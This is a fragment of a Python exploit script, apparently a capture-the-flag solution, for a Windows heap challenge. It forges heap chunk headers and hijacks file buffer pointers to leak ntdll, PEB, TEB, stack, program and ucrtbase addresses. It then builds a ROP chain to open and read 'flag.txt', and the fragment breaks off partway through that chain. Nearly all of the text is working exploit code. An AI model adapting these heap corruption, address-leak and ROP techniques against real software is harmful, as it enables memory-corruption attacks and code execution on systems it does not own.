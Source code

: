 ```python
payload += p64(heap_cookie ^ chunk_head_ctor(0x40, 0, 0x40, 0, 0))
payload += p64(heap_base + 0x8d8 - 0x8) + p64(heap_base + 0x8d8)
p.send(payload)

# Send payload to control file 6 to leak ntdll              (1)
payload =  p64(heap_base + 0x8d8)  # change files[5]->buffer = &files[6]->buffer
payload += b'A' * 0x20 + p64(0x100) + p64(heap_base + 0x2c0) # change files[6]->buffer = _HEAP->LockVariable.Lock thus leak the ntdll base
p.send(payload)
p.send("leakaddr") # leak symbol
p.recvuntil("leakaddr")
ntdll_base = u64(p.recv(8)) - 0x163d40
ntdll_pebldr = ntdll_base + 0x1653a0

# Send payload to control file 6 to leak PEB                (2)
payload =  p64(heap_base + 0x8d8)  # change files[5]->buffer = &files[6]->buffer
payload += b'A' * 0x20 + p64(0x100) + p64(ntdll_pebldr - 0x98) # change files[6]->buffer = ntdll!PebLdr - 0x80
p.send(payload)
p.recvuntil("leakaddr")
peb = u64(p.recv(8)) - 0x80
teb = peb + 0x1000

# Send payload to control file 6 to leak StackBase          (3)
payload =  p64(heap_base + 0x8d8)  # change files[5]->buffer = &files[6]->buffer
payload += b'A' * 0x20 + p64(0x100) + p64(teb + 0x8) # change files[6]->buffer = teb + 8 (StackBase)
p.send(payload)
p.recvuntil("leakaddr")
stack_base = u64(p.recv(8))

# Send payload to control file 6 to leak Program base       (4)
payload =  p64(heap_base + 0x8d8)  # change files[5]->buffer = &files[6]->buffer
payload += b'A' * 0x20 + p64(0x100) + p64(peb + 0x10) # change files[6]->buffer = peb + 0x10 (ImageBaseAddress)
p.send(payload)
p.recvuntil("leakaddr")
prog_base = u64(p.recv(8))

# Send payload to control file 6 to leak ucrtbase           (5)
payload =  p64(heap_base + 0x8d8)  # change files[5]->buffer = &files[6]->buffer
payload += b'A' * 0x20 + p64(0x100) + p64(prog_base + 0x4198) # change files[6]->buffer = _write IAT
p.send(payload)
p.recvuntil("leakaddr")
ucrtbase_base = u64(p.recv(8)) - 0x15bf0
ucrtbase_system = ucrtbase_base + 0xabba0

# Prepare bruteforce function stack address
payload =  p64(heap_base + 0x8d8)  # change files[5]->buffer = &files[6]->buffer
payload += b'flag.txt'.ljust(0x20, b"\x00") + p64(0x100) + p64(stack_base) # change files[6]->buffer = stack_base
payload += p64(prog_base + 0x20D2) # target symbol value

pop_rcx =    ntdll_base + 0x9217b   # pop rcx ; ret
pop_rdx =    ntdll_base + 0x8fb37   # pop rdx ; pop r11 ; ret
pop_r8 =     ntdll_base + 0x2010b   # pop r8 ; ret
pop_4regs =  ntdll_base + 0x8fb33   # pop r9 ; pop r10 ; pop r11 ; ret
_open =   ucrtbase_base + 0xa2a30
_read =   ucrtbase_base + 0x16270
_write =  ucrtbase_base + 0x15bf0
ropchain =  p64(pop_rcx) + p64(heap_base + 0x8e0) + p64(pop_rdx) + p64(0) + p64(0) + p64(_open) + p64(pop_4regs) + p64(0) * 4
```